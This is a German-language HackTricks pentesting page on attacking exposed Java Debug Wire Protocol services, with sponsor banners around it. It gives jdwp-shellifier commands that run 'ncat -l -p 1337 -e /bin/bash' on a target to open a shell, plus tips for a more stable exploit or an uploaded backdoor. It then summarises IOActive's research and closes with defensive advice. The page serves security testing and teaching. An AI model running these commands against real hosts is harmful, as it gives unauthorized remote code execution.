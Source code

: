 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Erhalten Sie die Perspektive eines Hackers auf Ihre Webanwendungen, Ihr Netzwerk und Ihre Cloud**

**Finden und melden Sie kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Verwenden Sie unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die Ihnen ermöglichen, Privilegien zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, die Ihre harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Ausnutzen

Die Ausnutzung von JDWP basiert auf dem **Fehlen von Authentifizierung und Verschlüsselung des Protokolls**. Es wird normalerweise auf **Port 8000** gefunden, aber andere Ports sind möglich. Die erste Verbindung erfolgt durch das Senden eines "JDWP-Handshake" an den Zielport. Wenn ein JDWP-Dienst aktiv ist, antwortet er mit demselben String und bestätigt damit seine Anwesenheit. Dieser Handshake dient als Fingerabdruckmethode zur Identifizierung von JDWP-Diensten im Netzwerk.

In Bezug auf die Prozessidentifikation kann die Suche nach dem String "jdwk" in Java-Prozessen auf eine aktive JDWP-Sitzung hinweisen.

Das bevorzugte Tool ist [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Sie können es mit verschiedenen Parametern verwenden:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Ich habe festgestellt, dass die Verwendung von `--break-on 'java.lang.String.indexOf'` den Exploit **stabiler** macht. Und wenn Sie die Möglichkeit haben, ein Backdoor auf den Host hochzuladen und es auszuführen, anstatt einen Befehl auszuführen, wird der Exploit noch stabiler.

## Weitere Details

**Dies ist eine Zusammenfassung von [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Überprüfen Sie es für weitere Details.

1. **JDWP Übersicht**:
- Es handelt sich um ein paketbasiertes Netzwerk-Binärprotokoll, das hauptsächlich synchron ist.
- Es fehlt an Authentifizierung und Verschlüsselung, was es anfällig macht, wenn es feindlichen Netzwerken ausgesetzt ist.

2. **JDWP Handshake**:
- Ein einfacher Handshake-Prozess wird verwendet, um die Kommunikation zu initiieren. Ein 14-Zeichen-ASCII-String „JDWP-Handshake“ wird zwischen dem Debugger (Client) und dem Debuggee (Server) ausgetauscht.

3. **JDWP Kommunikation**:
- Nachrichten haben eine einfache Struktur mit Feldern wie Länge, Id, Flag und CommandSet.
- Die CommandSet-Werte reichen von 0x40 bis 0x80 und repräsentieren verschiedene Aktionen und Ereignisse.

4. **Exploitation**:
- JDWP ermöglicht das Laden und Aufrufen beliebiger Klassen und Bytecode, was Sicherheitsrisiken birgt.
- Der Artikel beschreibt einen Exploitationsprozess in fünf Schritten, der das Abrufen von Java Runtime-Referenzen, das Setzen von Haltepunkten und das Aufrufen von Methoden umfasst.

5. **Echte Exploitation**:
- Trotz potenzieller Firewall-Schutzmaßnahmen sind JDWP-Dienste in realen Szenarien entdeckbar und ausnutzbar, wie durch Suchen auf Plattformen wie ShodanHQ und GitHub demonstriert.
- Das Exploit-Skript wurde gegen verschiedene JDK-Versionen getestet und ist plattformunabhängig, was zuverlässige Remote Code Execution (RCE) bietet.

6. **Sicherheitsimplikationen**:
- Das Vorhandensein offener JDWP-Dienste im Internet unterstreicht die Notwendigkeit regelmäßiger Sicherheitsüberprüfungen, das Deaktivieren von Debug-Funktionen in der Produktion und ordnungsgemäße Firewall-Konfigurationen.

### **Referenzen:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Erhalten Sie die Perspektive eines Hackers auf Ihre Webanwendungen, Ihr Netzwerk und die Cloud**

**Finden und melden Sie kritische, ausnutzbare Schwachstellen mit echtem Geschäftsauswirkungen.** Verwenden Sie unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die Ihnen ermöglichen, Berechtigungen zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, die Ihre harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
